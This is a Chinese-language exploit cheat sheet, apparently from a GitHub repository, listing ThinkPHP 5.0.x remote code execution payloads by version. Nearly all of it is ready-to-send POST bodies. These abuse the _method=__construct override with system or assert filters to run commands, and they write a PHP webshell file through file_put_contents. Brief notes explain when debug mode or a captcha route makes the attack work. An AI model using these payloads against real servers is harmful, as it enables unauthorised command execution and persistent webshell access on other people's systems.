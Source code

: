 默认debug=false，需要开启debug
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
```
### 5.0.20
默认debug=false，需要开启debug
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
```
### 5.0.21
默认debug=false，需要开启debug
命令执行
```
POST ?s=index/index
_method=__construct&filter[]=system&server[REQUEST_METHOD]=calc
```
写shell
```
POST
_method=__construct&filter[]=assert&server[REQUEST_METHOD]=file_put_contents('Y4er.php','<?php phpinfo();')
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
POST ?s=captcha
_method=__construct&filter[]=system&server[REQUEST_METHOD]=calc&method=get
```
